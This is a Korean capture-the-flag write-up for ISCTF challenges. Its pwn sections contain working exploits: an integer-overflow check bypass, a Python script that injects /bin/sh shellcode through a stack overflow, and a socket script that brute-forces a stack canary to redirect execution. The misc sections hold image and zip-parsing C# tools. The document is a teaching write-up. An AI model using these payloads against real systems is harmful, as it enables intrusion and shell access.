   0x080486f1 <+22>:	mov    %gs:0x14,%eax
   0x080486f7 <+28>:	mov    %eax,-0x1c(%ebp)
   0x080486fa <+31>:	xor    %eax,%eax
   0x080486fc <+33>:	mov    0x804a060,%eax
   0x08048701 <+38>:	sub    $0x8,%esp
   0x08048704 <+41>:	push   $0x0
   0x08048706 <+43>:	push   %eax
   0x08048707 <+44>:	call   0x8048500 <setbuf@plt>
   0x0804870c <+49>:	add    $0x10,%esp
   0x0804870f <+52>:	mov    0x804a064,%eax
   0x08048714 <+57>:	sub    $0x8,%esp
   0x08048717 <+60>:	push   $0x0
   0x08048719 <+62>:	push   %eax
   0x0804871a <+63>:	call   0x8048500 <setbuf@plt>
   0x0804871f <+68>:	add    $0x10,%esp
   0x08048722 <+71>:	lea    -0x11c(%ebp),%edx
   0x08048728 <+77>:	mov    $0x0,%eax
   0x0804872d <+82>:	mov    $0x40,%ecx
   0x08048732 <+87>:	mov    %edx,%edi
   0x08048734 <+89>:	rep stos %eax,%es:(%edi)
   0x08048736 <+91>:	movl   $0x0,-0x128(%ebp)
   0x08048740 <+101>:	sub    $0x8,%esp
   0x08048743 <+104>:	push   $0x8048a00
   0x08048748 <+109>:	push   $0x8048a02
   0x0804874d <+114>:	call   0x80485a0 <fopen@plt>
   0x08048752 <+119>:	add    $0x10,%esp
   0x08048755 <+122>:	mov    %eax,-0x128(%ebp)
   0x0804875b <+128>:	cmpl   $0x0,-0x128(%ebp)
   0x08048762 <+135>:	jne    0x804876e <main+147>
   0x08048764 <+137>:	mov    $0xffffffff,%eax
   0x08048769 <+142>:	jmp    0x804895f <main+644>
   0x0804876e <+147>:	sub    $0x4,%esp
   0x08048771 <+150>:	pushl  -0x128(%ebp)
   0x08048777 <+156>:	push   $0x100
   0x0804877c <+161>:	lea    -0x11c(%ebp),%eax
   0x08048782 <+167>:	push   %eax
   0x08048783 <+168>:	call   0x8048530 <fgets@plt>
   0x08048788 <+173>:	add    $0x10,%esp
=> 0x0804878b <+176>:	sub    $0xc,%esp
   0x0804878e <+179>:	pushl  -0x128(%ebp)
   0x08048794 <+185>:	call   0x8048540 <fclose@plt>
   0x08048799 <+190>:	add    $0x10,%esp
   0x0804879c <+193>:	sub    $0xc,%esp
   0x0804879f <+196>:	push   $0x8048a16
   0x080487a4 <+201>:	call   0x8048510 <printf@plt>
   0x080487a9 <+206>:	add    $0x10,%esp
   0x080487ac <+209>:	sub    $0x8,%esp
   0x080487af <+212>:	lea    -0x131(%ebp),%eax
   0x080487b5 <+218>:	push   %eax
   0x080487b6 <+219>:	push   $0x8048a33
   0x080487bb <+224>:	call   0x80485c0 <__isoc99_scanf@plt>
   0x080487c0 <+229>:	add    $0x10,%esp
   0x080487c3 <+232>:	mov    0x804a060,%eax
   0x080487c8 <+237>:	sub    $0xc,%esp
   0x080487cb <+240>:	push   %eax
   0x080487cc <+241>:	call   0x8048520 <fflush@plt>
   0x080487d1 <+246>:	add    $0x10,%esp
   0x080487d4 <+249>:	movzbl -0x131(%ebp),%eax
   0x080487db <+256>:	test   %al,%al
   0x080487dd <+258>:	jne    0x80487f9 <main+286>
   0x080487df <+260>:	sub    $0xc,%esp
   0x080487e2 <+263>:	push   $0x8048a36
   0x080487e7 <+268>:	call   0x8048510 <printf@plt>
   0x080487ec <+273>:	add    $0x10,%esp
   0x080487ef <+276>:	mov    $0x1,%eax
   0x080487f4 <+281>:	jmp    0x804895f <main+644>
   0x080487f9 <+286>:	movzbl -0x131(%ebp),%eax
   0x08048800 <+293>:	movzbl %al,%eax
   0x08048803 <+296>:	add    $0x1,%eax
   0x08048806 <+299>:	sub    $0xc,%esp
   0x08048809 <+302>:	push   %eax
   0x0804880a <+303>:	call   0x8048560 <malloc@plt>
   0x0804880f <+308>:	add    $0x10,%esp
   0x08048812 <+311>:	mov    %eax,-0x124(%ebp)
   0x08048818 <+317>:	movzbl -0x131(%ebp),%eax
   0x0804881f <+324>:	movzbl %al,%eax
   0x08048822 <+327>:	sub    $0x8,%esp
   0x08048825 <+330>:	push   %eax
   0x08048826 <+331>:	push   $0x8048a54
   0x0804882b <+336>:	call   0x8048510 <printf@plt>
   0x08048830 <+341>:	add    $0x10,%esp
   0x08048833 <+344>:	movl   $0x0,-0x130(%ebp)
   0x0804883d <+354>:	jmp    0x8048868 <main+397>
   0x0804883f <+356>:	mov    -0x130(%ebp),%edx
   0x08048845 <+362>:	mov    -0x124(%ebp),%eax
   0x0804884b <+368>:	lea    (%edx,%eax,1),%ebx
   0x0804884e <+371>:	mov    0x804a060,%eax
   0x08048853 <+376>:	sub    $0xc,%esp
   0x08048856 <+379>:	push   %eax
   0x08048857 <+380>:	call   0x80485b0 <fgetc@plt>
   0x0804885c <+385>:	add    $0x10,%esp
   0x0804885f <+388>:	mov    %al,(%ebx)
   0x08048861 <+390>:	addl   $0x1,-0x130(%ebp)
   0x08048868 <+397>:	movzbl -0x131(%ebp),%eax
   0x0804886f <+404>:	movzbl %al,%eax
   0x08048872 <+407>:	cmp    -0x130(%ebp),%eax
   0x08048878 <+413>:	jg     0x804883f <main+356>
   0x0804887a <+415>:	sub    $0xc,%esp
   0x0804887d <+418>:	lea    -0x11c(%ebp),%eax
   0x08048883 <+424>:	push   %eax
   0x08048884 <+425>:	call   0x8048580 <strlen@plt>
   0x08048889 <+430>:	add    $0x10,%esp
   0x0804888c <+433>:	add    $0x1,%eax
   0x0804888f <+436>:	mov    %eax,-0x120(%ebp)
   0x08048895 <+442>:	movzbl -0x131(%ebp),%eax
   0x0804889c <+449>:	add    $0x1,%eax
   0x0804889f <+452>:	mov    %al,-0x131(%ebp)
   0x080488a5 <+458>:	movzbl -0x131(%ebp),%eax
   0x080488ac <+465>:	movzbl %al,%eax
   0x080488af <+468>:	cmp    -0x120(%ebp),%eax
   0x080488b5 <+474>:	jge    0x80488c9 <main+494>
   0x080488b7 <+476>:	movzbl -0x131(%ebp),%eax
   0x080488be <+483>:	movzbl %al,%eax
   0x080488c1 <+486>:	mov    %eax,-0x12c(%ebp)
   0x080488c7 <+492>:	jmp    0x80488d5 <main+506>
   0x080488c9 <+494>:	mov    -0x120(%ebp),%eax
   0x080488cf <+500>:	mov    %eax,-0x12c(%ebp)
   0x080488d5 <+506>:	movl   $0x0,-0x130(%ebp)
   0x080488df <+516>:	jmp    0x8048925 <main+586>
   0x080488e1 <+518>:	mov    -0x130(%ebp),%edx
   0x080488e7 <+524>:	mov    -0x124(%ebp),%eax
   0x080488ed <+530>:	add    %edx,%eax
   0x080488ef <+532>:	movzbl (%eax),%edx
   0x080488f2 <+535>:	lea    -0x11c(%ebp),%ecx
   0x080488f8 <+541>:	mov    -0x130(%ebp),%eax
   0x080488fe <+547>:	add    %ecx,%eax
   0x08048900 <+549>:	movzbl (%eax),%eax
   0x08048903 <+552>:	cmp    %al,%dl
   0x08048905 <+554>:	je     0x804891e <main+579>
   0x08048907 <+556>:	sub    $0xc,%esp
   0x0804890a <+559>:	push   $0x8048a75
   0x0804890f <+564>:	call   0x8048570 <puts@plt>
   0x08048914 <+569>:	add    $0x10,%esp
   0x08048917 <+572>:	mov    $0x1,%eax
   0x0804891c <+577>:	jmp    0x804895f <main+644>
   0x0804891e <+579>:	addl   $0x1,-0x130(%ebp)
   0x08048925 <+586>:	mov    -0x130(%ebp),%eax
   0x0804892b <+592>:	cmp    -0x12c(%ebp),%eax
   0x08048931 <+598>:	jl     0x80488e1 <main+518>
   0x08048933 <+600>:	sub    $0xc,%esp
   0x08048936 <+603>:	push   $0x8048a7d
   0x0804893b <+608>:	call   0x8048570 <puts@plt>
   0x08048940 <+613>:	add    $0x10,%esp
   0x08048943 <+616>:	sub    $0x8,%esp
   0x08048946 <+619>:	lea    -0x11c(%ebp),%eax
   0x0804894c <+625>:	push   %eax
   0x0804894d <+626>:	push   $0x8048a88
   0x08048952 <+631>:	call   0x8048510 <printf@plt>
   0x08048957 <+636>:	add    $0x10,%esp
   0x0804895a <+639>:	mov    $0x0,%eax
   0x0804895f <+644>:	mov    -0x1c(%ebp),%ebx
   0x08048962 <+647>:	xor    %gs:0x14,%ebx
   0x08048969 <+654>:	je     0x8048970 <main+661>
   0x0804896b <+656>:	call   0x8048550 <__stack_chk_fail@plt>
   0x08048970 <+661>:	lea    -0xc(%ebp),%esp
   0x08048973 <+664>:	pop    %ecx
   0x08048974 <+665>:	pop    %ebx
   0x08048975 <+666>:	pop    %edi
   0x08048976 <+667>:	pop    %ebp
   0x08048977 <+668>:	lea    -0x4(%ecx),%esp
   0x0804897a <+671>:	ret
End of assembler dump.
````

이 문제엔 glibc가 제공하는 stack canary가 적용되어 있다.
또한, 비밀번호를 입력받는 곳이 Heap이고, 이곳에 code를 집어넣는다고 해도 이를 트리거할 방법이 없다. 하지만, 맨 처음에 비밀번호의 길이를 scanf로 입력받는 점에 주목할 수 있다.

scanf 부분 (*main+212 ~ *main+219) C로 바꾸면 다음과 같다.

````
uint8_t pwlen;
scanf(“%d”, pwlen);
````

pwlen + 1이 flag의 길이보다 짧은 경우, pwlen + 1만큼 우리가 입력한 값과 flag를 비교하기 위한 for 문에서 반복하게 된다.

````
int i = 0;
pwlen++;
for (i = 0; i < pwlen; i++)
{
    /* flag와 사용자가 입력한 값 비교 */
    /* 다른 바이트를 인식할 경우 실패*/
}
puts(“Congratz !”);
````

이 때, pwlen은 unsigned char로 취급되어야 안전하나 scanf에서는 signed int로 취급되고 있다. 이를 이용한 integer overflow가 가능하다.

pwlen에 –1을 대입할 경우, for문이 실행될 시점에서는 pwlen이 0이 되어 flag와 사용자 입력을 검사하는 코드를 건너뛸 수 있다. pwlen에 –1을 입력했을 경우, 사용자 입력을 pwlen만큼 읽어오므로, 255 (int8_t의 –1은 uint8_t의 255와 동일하다)만큼 입력받게 된다.

위 분석을 종합하면, flag를 읽기 위해선 password length을 –1로, 그 후에 255바이트를 아무 값이나 집어넣으면 된다.

````
ied206@TS140  ~/ISCTF/epwn1800
$ python -c "print '-1 ' + 'A'*253" | nc 45.32.46.195 10004
Input the password length : Input the password (length : 255
Congratz !
The flag is ISCTF{I don't need to match them :)}
````

C 표준에서 fflush는 출력용 스트림과만 쓰여야만 하므로, gcc에서 fflush(stdin);은 무시된다. 따라서 –1 뒤의 scanf용 delimeter space가 뒤의 fputc에서 읽히고, python의 print 함수는 끝에 개행문자를 붙이므로, 255개가 아닌 253개의 A를 입력하면 된다.

### Answer flag

````
flag = ISCTF{I don't need to match them :)}
````

## [mPwn2000] Do you know cd 80?

### 요약

````
ied206@TS140  ~/ISCTF/mpwn2000
$ wget http://45.63.124.167/files/mpwn2000
ied206@TS140  ~/ISCTF/mpwn2000
$ chmod +x mpwn2000
ied206@TS140  ~/ISCTF/mpwn2000
$ vim expect.py
ied206@TS140  ~/ISCTF/mpwn2000
$ cat expect.py
#!/usr/bin/env python3

import pexpect
import sys

p = pexpect.spawn(sys.argv[1])

opts = [ "Address of buf is : 0x([a-f0-9]+)\r\nInput your message : ",
          pexpect.EOF ]

while True:
    index = p.expect(opts, timeout=3)
    if index == 0:
        address = int(p.match.group(1), 16).to_bytes(4, byteorder='little')
        shellcode = b'\x90'*36 +  b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' +  b'\x00\xe1\xd7\xFF'
        shellcode = shellcode + address
        print(shellcode)
        p.send(shellcode)
        p.interact()

ied206@TS140  ~/ISCTF/mpwn2000
$ ./expect.py 'nc 45.32.46.195 10100'                                                                                           1 ↵
b"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901\xc0Ph//shh/bin\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x801\xc0@\xcd\x80\x00\xe1\xd7\xff\xe8'\xa1\xff"
1󿿐h//shh/bin㊁°^K̀1󿿀̀^@☿槡ÿ

your message is 1󿿐h//shh/bin㊁°
                               ̀1󿿀̀
cat /home/mpwn2000/flag
ISCTF{Jmp to sh311c0de!!}
````

### 풀이

mpwn2000 바이너리 내에서 컴파일러 stub을 제외하면, main 함수만이 존재한다.

Main 내의 코드는 다음과 같다.

````
(gdb) disas main
Dump of assembler code for function main:
   0x080484bb <+0>:	push   %ebp
   0x080484bc <+1>:	mov    %esp,%ebp
   0x080484be <+3>:	sub    $0x40,%esp
   0x080484c1 <+6>:	mov    0x804a040,%eax
   0x080484c6 <+11>:	push   $0x0
   0x080484c8 <+13>:	push   %eax
   0x080484c9 <+14>:	call   0x8048370 <setbuf@plt>
   0x080484ce <+19>:	add    $0x8,%esp
   0x080484d1 <+22>:	mov    0x804a044,%eax
   0x080484d6 <+27>:	push   $0x0
   0x080484d8 <+29>:	push   %eax
   0x080484d9 <+30>:	call   0x8048370 <setbuf@plt>
   0x080484de <+35>:	add    $0x8,%esp
   0x080484e1 <+38>:	lea    -0x40(%ebp),%eax
   0x080484e4 <+41>:	push   %eax
   0x080484e5 <+42>:	push   $0x80485b0
   0x080484ea <+47>:	call   0x8048390 <printf@plt>
   0x080484ef <+52>:	add    $0x8,%esp
   0x080484f2 <+55>:	push   $0x80485c8
   0x080484f7 <+60>:	call   0x8048390 <printf@plt>
   0x080484fc <+65>:	add    $0x4,%esp
   0x080484ff <+68>:	push   $0x80
   0x08048504 <+73>:	lea    -0x40(%ebp),%eax
   0x08048507 <+76>:	push   %eax
   0x08048508 <+77>:	push   $0x0
   0x0804850a <+79>:	call   0x8048380 <read@plt>
   0x0804850f <+84>:	add    $0xc,%esp
   0x08048512 <+87>:	lea    -0x40(%ebp),%eax
   0x08048515 <+90>:	push   %eax
   0x08048516 <+91>:	push   $0x80485de
   0x0804851b <+96>:	call   0x8048390 <printf@plt>
   0x08048520 <+101>:	add    $0x8,%esp
   0x08048523 <+104>:	mov    $0x0,%eax
   0x08048528 <+109>:	leave
   0x08048529 <+110>:	ret
End of assembler dump.
````

main 내에는 uint8_t buf[0x40]이 존재하고, read로 binary를 읽어들인다.
이 때, read의 길이는 0x80으로 지정되어 있어 BOF가 가능하다.

buf + exEBP + return address 순으로 main의 스택 프레임이 구성되어 있으므로, buf + exEBP를 합친 68B 내에 쉘코드를 집어넣은 후, return address는 buf의 시작 주소를 주면 된다.

이 때 buf의 시작 주소는 매번 변하는 문제가 있으나, mpwn2000은 buf의 주소를 stdout에 출력해준다. 따라서 이 문제를 풀기 위해선 이 값을 읽은 뒤 동적으로 쉘코드에 주소를 삽입하여 stdin에 넣어줘야 한다. 이를 위해 python의 pexpect 모듈을 사용한다.
먼저, /bin/sh을 호출하는 28B 쉘코드를 준비한다.

````
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
````

NOP Sled의 효과를 내고, 64B에 맞춰 패딩을 하기 위해 앞에 36B의 NOP을 붙인다. 또한, 뒤에 exEBP 자리에 들어갈 더미값 4바이트도 붙인다.

````
#!/usr/bin/env python3
shellcode = b'\x90'*36 +  b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' +  b'\x00\xe1\xd7\xFF'
````

stdout에서 출력해주는 buf의 주소를 읽은 뒤, 이를 쉘코드 맨 뒤에 붙인다.

````
#!/usr/bin/env python3
# buf’s address captured in p.match.group(1)
address = int(p.match.group(1), 16).to_bytes(4, byteorder='little')
shellcode = shellcode + address
````

mpwn2000의 stdin과 stdout을 통제하기 위해 python의 pexpect 모듈을 사용한다.
출력된 buf의 주소를 찾은 뒤 쉘코드를 생성하고, 이후부터는 stdin과 stdout을 정상적인 상태처럼 쉘로 보내 /bin/sh을 내가 조작할 수 있도록 한다.
문제풀이에 사용한 코드는 다음과 같다.

````
ied206@TS140  ~/ISCTF/mpwn2000
$ cat expect.py
#!/usr/bin/env python3

import pexpect
import sys

p = pexpect.spawn(sys.argv[1])

opts = [ "Address of buf is : 0x([a-f0-9]+)\r\nInput your message : ",
          pexpect.EOF ]

while True:
    index = p.expect(opts, timeout=3)
    if index == 0:
        address = int(p.match.group(1), 16).to_bytes(4, byteorder='little')
        shellcode = b'\x90'*36 +  b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' +  b'\x00\xe1\xd7\xFF'
        shellcode = shellcode + address
        print(shellcode)
        p.send(shellcode)
        p.interact()
````

이를 실행하면 다음 결과를 얻을 수 있다.

````
ied206@TS140  ~/ISCTF/mpwn2000
$ ./expect.py 'nc 45.32.46.195 10100'
b"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901\xc0Ph//shh/bin\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x801\xc0@\xcd\x80\x00\xe1\xd7\xff\xe8'\xa1\xff"
1󿿐h//shh/bin㊁°^K̀1󿿀̀^@☿槡ÿ

your message is 1󿿐h//shh/bin㊁°
                               ̀1󿿀̀
cat /home/mpwn2000/flag
ISCTF{Jmp to sh311c0de!!}
````

### Answer flag

````
ISCTF{Jmp to sh311c0de!!}
````

## [mPwn2300] Fork-daemon without execve

### 풀이

다음 코드는 스택 카나리의 앞 3바이트를 아는 상태에서 마지막 바이트를 찾는 코드이다.

````
$ cat brute_new_4.py
#!/usr/bin/env python3

import socket
import time
import sys

TCP_IP = '45.32.46.195'
TCP_PORT = 10101
BUFFER_SIZE = 1024


for x in range(0x0, 0x100):
    start = time.time()

    print('Testing ' + str(x))
    print('Testing ' + str(x), file=sys.stderr)
    bf = x.to_bytes(1, byteorder='little')

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TCP_IP, TCP_PORT))

    print(s.recv(BUFFER_SIZE))
    req = b'A'*64 # buf

    req += b'\x00\xC7\xBD'
    req += bf # canary 3rd byte

    s.send(req);

    res = s.recv(BUFFER_SIZE)

    time.sleep(0.1)

    success = True
    s.setblocking(False)
    try:
        s.recv(BUFFER_SIZE)
    except:
        success = False

    if (success):
        print("SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS " + str(x))
        print("SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS " + str(x), file=sys.stderr)

    s.close()

    end = time.time()
    print(end - start)

    print()
````

스택 카나리를 알아냈으면, BOF 공격이 가능하다.
Payload를 다음과 같이 구성한다.

````
ied206@TS140  ~/ISCTF/mpwn2300
$ cat solve.py
#!/usr/bin/env python3

import socket
import time
import sys

TCP_IP = '45.32.46.195'
TCP_PORT = 10101
BUFFER_SIZE = 1024

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))

print(s.recv(BUFFER_SIZE))
req = b'A'*64 # buf
req += b'\x00\xC7\xBD\x0B'
req += b'AAAA'*2
req += b'\xCB\x87\x04\x08'

s.send(req);

res = s.recv(BUFFER_SIZE)
print(res)
res = s.recv(BUFFER_SIZE)
print(res)

s.close()
````

handle_client 함수의 스택 프레임은 64바이트 buffer, 4바이트 stack canary, 4바이트 main의 EBP, 4바이트 리턴 어드레스 순으로 구성된다. 따라서 payload를 총 80바이트로 구성하며, 그 중 스택 카나리의 값을 현 프로세스의 카나리 값으로 맞추고 리턴 어드레스의 값을 flag를 표시하는 dead code인 cat_flag 함수의 주소로 설정한다.

이를 실행하면 다음 결과를 얻을 수 있다.

````
ied206@TS140  ~/ISCTF/mpwn2300
$ ./solve.py
b'Input your message : '
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
b'ISCTF{Pork?!Fork!!}\n'
````

#### Answer flag

````
ISCTF{Pork?!Fork!!}
````

## [Misc2000] No Mercy


### 풀이

위 이미지 `NO_MERCY.png`에서 RGB 중 Red channel만을 남기면 아래와 같은 이미지가 된다.


다음 텍스트를 읽어낼 수 있다.

````
the answer is
flag of korea
````

### Answer flag

````
flag of korea
````

## [Misc2300] Get Lucky!

### 풀이

첨부파일 `1fb16ce2d91f0bde43ce1678fc7392fd.zip`

5중으로 압축된 1.zip, 2.zip, ..., 9.zip. 각 이미지 파일에는 ASCII GL 문자가 17글자씩 들어가 렌더링되어 있음.

이미지 총 9 \* 9 \* 9 \* 9 \* 9 = 59,049개.

1. 우선 압축 파일을 재귀적으로 모두 압축 해제를 한 뒤 PNG 파일을 모은다. C# 코드를 작성하여 수행하였다. (코드 첨부함)
2. 이렇게 모은 PNG 파일들은 모두 고정된 크기로, 내용으로는 고정된 폰트/크기의 17글자짜리 문자열이 들어있다. C# 코드를 사용하여, 이미지의 각 문자 영역을 사용자가 입력한 문자열과 매칭해서 기억해두는 프로그램을 작성했다. (코드 첨부함) 해당 프로그램이 PNG 이미지들이 사용하는 문자들을 전부(총 94개) 기억하면 나머지 처리하지 않은 이미지에 대해서도 이미지를 문자열로 변환할 수 있게 된다.
3. 위 프로그램을 사용하여 전체 이미지의 내용을 해석한 문자열을 실제 텍스트 파일로 출력한다. (텍스트 덤프 첨부함)
4. Flag로 텍스트 파일 내에서 검색하면 문자열 `Flag=V!oL3n7Lu9i@`을 찾을 수 있다. `Flag=` 뒤에 있는 값이 문제가 요구하는 키값.

### 재귀 압축 해제 프로그램 소스 코드: CTFZipExtractor

````csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.IO;
using System.IO.Compression;
using System.Collections.Generic;
using System.Drawing;

namespace CTFZipExtractor
{
	class Program
	{
		const string    seedfile    = @"1fb16ce2d91f0bde43ce1678fc7392fd.zip";
		const string	workdir		= @"work\";

		void ProcessZip(string filename, Queue<string> namequeue, bool firstIter = false)
		{
			var nameWoExt   = firstIter? "" : Path.GetFileNameWithoutExtension(filename);

			using (var zipFileToOpen = new FileStream(workdir + filename, FileMode.Open))
			using (var archive = new ZipArchive(zipFileToOpen, ZipArchiveMode.Read))
			{
				foreach (var zipArchiveEntry in archive.Entries)
				{
					if (zipArchiveEntry.Name.Length == 0)
						continue;

					var archname    = nameWoExt + zipArchiveEntry.Name;
					zipArchiveEntry.ExtractToFile(workdir + archname);

					if (Path.GetExtension(archname) == ".zip")
					{
						namequeue.Enqueue(archname);
					}
				}
			}

			if (!firstIter)
				File.Delete(workdir + filename);
		}

		static void Main(string[] args)
		{
			var program = new Program();
			program.ZipWork();
			//program.PNGSearch();
			//program.PNGMake();
		}

		void ZipWork()
		{
			var queue   = new Queue<string>();

			ProcessZip(seedfile, queue, true);

			while (queue.Count > 0)
			{
				var name    = queue.Dequeue();
				ProcessZip(name, queue);
				Console.Out.WriteLine("processed : {0}", name);
			}
		}
	}
}
````

### 문자 인식 프로그램 소스 코드: CTFShitProcessor

````csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.IO;
using System.Drawing;

namespace CTFShitProcessor
{
	class ChunkDict
	{
		Bitmap[]        m_chunks;


		public ChunkDict()
		{
			m_chunks    = new Bitmap[128];

			LoadLearntChunks();
		}
		void LoadLearntChunks()
		{
			var files   = Directory.GetFiles(Program.c_pathLearning);
			var count   = files.Length;

			for(var i = 0; i < count; i++)
			{
				var path    = files[i];
				var c       = byte.Parse(Path.GetFileNameWithoutExtension(path));
				using (var loadbmp = new Bitmap(path))
					m_chunks[c] = new Bitmap(loadbmp);
			}
		}

		void SaveLearntChunk(byte character)
		{
			var path    = Program.c_pathLearning + character.ToString() + ".png";
			if (File.Exists(path)) File.Delete(path);
			m_chunks[character].Save(path);
		}

		public void Match(CutImage cimg)
		{
			for(var i = 0; i < CutImage.c_charCount; i++)
			{
				var chunk   = cimg.GetChunk(i);
				var match   = Lookup(chunk);
				cimg.SetMatchingChar(i, match);
			}
		}

		public void Learn(CutImage cimg, string str)
		{
			var byteArr = Encoding.ASCII.GetBytes(str);
			for (var i = 0; i < CutImage.c_charCount; i++)
			{
				var c		= byteArr[i];
				m_chunks[c]	= cimg.GetChunk(i);

				SaveLearntChunk(c);
			}
		}

		byte Lookup(Bitmap targetChunk)
		{
			var count   = m_chunks.Length;
			for(var i = 0; i < count; i++)
			{
				var learntChunk = m_chunks[i];
				if (learntChunk != null && AreChunksSame(targetChunk, learntChunk))
				{
					return (byte)i;
				}
			}
			return 0;
		}

		bool AreChunksSame(Bitmap b1, Bitmap b2)
		{
			return CheckWithPadding(b1, b2, 0)
				|| CheckWithPadding(b1, b2, 1)
				|| CheckWithPadding(b1, b2, -1);
		}

		bool CheckWithPadding(Bitmap b1, Bitmap b2, int xoffset)
		{
			var width		= b1.Width - Math.Abs(xoffset);
			var height		= b1.Height;

			var b1_basex    = Math.Max(0, xoffset);
			var b2_basex    = -Math.Min(0, xoffset);

			for (var y = 0; y < height; y++)
			{
				for (var x = 0; x < width; x++)
				{
					if (b1.GetPixel(x + b1_basex, y) != b2.GetPixel(x + b2_basex, y))
						return false;
				}
			}

			return true;
		}
	}

	class CutImage
	{
		public const int   c_charCount		= 17;
		public const int   c_leftPadding   = 4;
		public const int   c_widthPerChar  = 8;
		public const int   c_heightPerChar = 16;

		Bitmap		m_original;
		byte[]      m_matching;
		ChunkDict   m_chunkDict;

		public CutImage(ChunkDict chunkDict)
		{
			m_chunkDict = chunkDict;
			m_matching  = new byte[17];
		}

		public Bitmap GetChunk(int index)
		{
			var chunk   = new Bitmap(c_widthPerChar, c_heightPerChar);
			var baseX   = c_leftPadding + (c_widthPerChar * index);
			var baseY   = 0;

			for (var y = 0; y <c_heightPerChar; y++)
				for (var x = 0; x < c_widthPerChar; x++)
				{
					chunk.SetPixel(x, y, m_original.GetPixel(baseX + x, baseY + y));
				}

			return chunk;
		}

		public void SetMatchingChar(int index, byte character)
		{
			m_matching[index] = character;
		}

		public bool hasFullMatching()
		{
			m_chunkDict.Match(this);
			for (var i = 0; i < m_matching.Length; i++)
			{
				if (m_matching[i] == 0)
					return false;
			}
			return true;
		}

		public string GetFullMatchingString()
		{
			if (!hasFullMatching())
				return "(string matching imcomplete!)";

			return Encoding.ASCII.GetString(m_matching);
		}

		public void Load(string path)
		{
			m_original  = new Bitmap(path);
		}
	}


	class Program
	{
		public const string		c_pathTarget	= @"target\";
		public const string		c_pathLearning	= @"learn\";

		static void Main(string[] args)
		{
			var usageError  = false;

			if (args.Length <= 0)
			{
				usageError  = true;
			}
			else
			{
				var func        = args[0];
				var chunkDict   = new ChunkDict();

				switch (func)
				{
					case "-learn":
						if (args.Length != 2)
							usageError  = true;
						else
						{
							var filename	= c_pathTarget + args[1];

							if (!File.Exists(filename))
								Console.Out.WriteLine("error : file not exists");
							else
							{
								var image   = new CutImage(chunkDict);
								image.Load(filename);

								Console.Out.Write("enter the matching string : ");

								var matching    = Console.In.ReadLine();
								if (matching.Length != CutImage.c_charCount)
									Console.Out.WriteLine("error : string length must be " + CutImage.c_charCount);
								else
								{
									chunkDict.Learn(image, matching);

									Console.Out.WriteLine("learnt! press any key to continue");
									Console.In.ReadLine();
								}
							}
						}
						break;

					case "-check":
						if (args.Length != 2)
							usageError  = true;
						else
						{
							var filename    = c_pathTarget + args[1];

							if (!File.Exists(filename))
								Console.Out.WriteLine("error : file not exists");
							else
							{
								var image   = new CutImage(chunkDict);
								image.Load(filename);
								Console.Out.WriteLine("matching : " + image.GetFullMatchingString());
								Console.In.ReadLine();
							}
						}
						break;

					case "-scan":
						if (args.Length != 1)
							usageError  = true;
						else
						{
							var files   = Directory.GetFiles(c_pathTarget);
							var count   = files.Length;
							for(var i = 0; i < count; i++)
							{
								var image   = new CutImage(chunkDict);
								var path    = files[i];
								image.Load(path);

								Console.Out.WriteLine("{0}:{1}", path, image.GetFullMatchingString());
							}
						}
						break;

					case "-scannomatch":
						if (args.Length != 1)
							usageError  = true;
						else
						{
							var files   = Directory.GetFiles(c_pathTarget);
							var count   = files.Length;
							for (var i = 0; i < count; i++)
							{
								var image   = new CutImage(chunkDict);
								var path    = files[i];
								image.Load(path);

								if (!image.hasFullMatching())
									Console.Out.WriteLine(path);
							}
						}
						break;
				}
			}

			if (usageError)
			{
				Console.Out.WriteLine("Usage : ");
				Console.Out.WriteLine("			CTFShitProcessor -learn <image>");
				Console.Out.WriteLine("			CTFShitProcessor -check <image>");
				Console.Out.WriteLine("			CTFShitProcessor -scan");
				Console.Out.WriteLine("			CTFShitProcessor -scannomatch");
			}
		}
	}
}
````

프로그램의 사용례

````
learnt! press any key to continue
$ ./CTFShitProcessor.exe
Usage :
                        CTFShitProcessor -learn <image>
                        CTFShitProcessor -check <image>
                        CTFShitProcessor -scan
                        CTFShitProcessor -scannomatch
$ ./CTFShitProcessor.exe -learn 11111-.png
enter the matching string : PBhh\e]@B5_CjwLD<
````

실행 환경 세팅



target 폴더 내용 (CTFZipExtractor 결과물 파일)



learn 폴더 내용 (위 11111-.png 입력 후)



### 문자 인식 실행 결과

ASCII GL 내 모든 문자에 대해 이미지가 확보되면 `./CTFShitProcessor -scan > output.txt` 명령을 통해 다음 내용을 확보할 수 있다.

````
target\11111-.png:PBhh\e]@B5_CjwLD<
target\11112-.png:FlZ.2?1t@thb++IWt
target\11113-.png:[N719GZ?KSRuNpv)d
target\11114-.png:sBHMw#9o`(f2`8k]`
target\11115-.png:0L\CvwI-*eF5wblO3
target\11116-.png:2(V31+DW.k{aQ@6DB
